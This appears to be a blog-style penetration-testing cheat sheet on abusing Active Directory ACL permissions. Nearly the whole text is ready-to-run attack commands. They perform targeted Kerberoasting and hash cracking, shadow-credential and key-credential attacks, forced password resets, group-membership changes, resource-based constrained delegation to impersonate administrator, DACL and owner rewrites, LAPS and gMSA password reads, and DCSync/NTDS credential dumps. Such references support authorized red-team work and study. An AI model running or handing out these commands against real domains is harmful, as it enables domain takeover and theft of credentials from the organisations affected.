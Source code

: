 ```yaml
---
title: AD ACLs Cheatsheet
author: Kasem Shibli
date: 2025-10-27 12:15:00 +/-TTTT
categories: [CheetSheets]
tags: [AD-ACLs]
---
```

# AD ACLs Cheatsheet

# GenericWrite on User
## Targeted Kerberoasting
```bash
targetedKerberoast.py -d domain --dc-ip ip -u username -p password --dc-host dc --request-user target_user

hashcat -m 13100 -a 0 <hash_file> rockyou.txt --force

john <hash_file> --wordlist=rockyou.txt
```
## ShadowCredentials
```bash
certipy shadow auto -u username@domain -p password -account target_user -dc-ip ip
```
Using Kerberos
```bash
certipy shadow auto -username username@domain -k -account target_user -dc-ip ip
```
# GenericALL
## Change Password
```bash
bloodyAD --host dc -d domain -u username -p password set password target new_password

net rpc password 'username' 'new_password' -U 'domain'/'username'%'hash' -S 'dc' --pw-nt-hash

net rpc password 'username' 'new_password' -U 'domain'/'username'%'password' -S 'dc'
```

## Add user to a group
```bash
net rpc group addmem target_group username -U domain/username -S dc

bloodyAD --host dc -d domain -u username -p password add groupMember target_group target_username
```
## RBCD
```bash
impacket-rbcd -delegate-from machine_name -delegate-to target -dc-ip ip -action write 'domain/username:password'

impacket-getST -spn 'cifs/dc' -impersonate administrator -dc-ip ip 'domain/machine_name:password

export KRB5CCNAME=administrator.ccache
```
## GenericALL on OU
```bash
impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal username -target-dn 'OU_DN' domain/username:password
```
## ForceChangePassword
```bash
net rpc password <TargetUser> <new_password> -U "DOMAIN"/"ControlledUser"%"Password" -S <DomainController>

bloodyAD --host ip -d dc -u username -p password set password target_userename new_password

python rpcchangepwd.py <domain>/<username>:<password>@<ip> -newpass <new_password>

nxc smb domain -u username -p password -M change-password -o USER='target_username' NEWPASS='new_password'
```
## AddMember
```bash
net rpc group addmem target_group username -U domain/username -S dc

bloodyAD --host dc -d domain -u username -p password add groupMember target_group user_to_add
```
## AddSelf
```bash
bloodyAD --host dc -d domain -u username -p password add groupMember target_group username
```
## WriteOwner
```bash
impacket-owneredit -action write -new-owner username -target target domain/username:password

impacket-dacledit -action 'write' -rights 'FullControl' -principal username -target-dn dn 'domain/username:password'
```
or
```bash
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal username -target-dn dn 'domain/username:password'

bloodyAD --host dc -d domain -u username -p password add groupMember target_group username
```

## WriteSPN
```bash
bloodyAD --host dc -d domain -u username -p password set object target servicePrincipalName -v 'domain/meow'

impacket-GetUserSPNs domain/username:password -dc-ip ip -request
```
or
```bash
targetedKerberoast -d domain --dc-ip ip -u username -p password --dc-host dc --request-user target_user
```
## AddKeyCredentialLink
```bash
pywhisker.py -d domain --dc-ip ip -u username -p password --target target --action add

gettgtpkinit.py -cert-pfx file.pfx -pfx-pass pfx_password domain/target ticket.ccache -dc-ip ip

getnthash.py domain/target -k key -dc-ip ip
```
or
```bash
certipy shadow auto -u username@domain -p password -account target_user -dc-ip ip
```
## ReadLAPSPassword
```bash
nxc smb target -u username -p password --laps
```
## ReadGMSAPassword
```bash
nxc ldap target -u username -p password --gmsa
```
## DCSync
```bash
impacket-secretsdump domain/username:password@domain

impacket-secretsdump domain/username@domain -hashes :hash

impacket-secretsdump dc -k

nxc smb target -u username -p password --ntds

nxc smb target --use-kcache --ntds
```

# Resources

- https://www.thehacker.recipes/ad/movement/dacl/
- https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse
- https://mayfly277.github.io/posts/GOADv2-pwning-part11/
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces
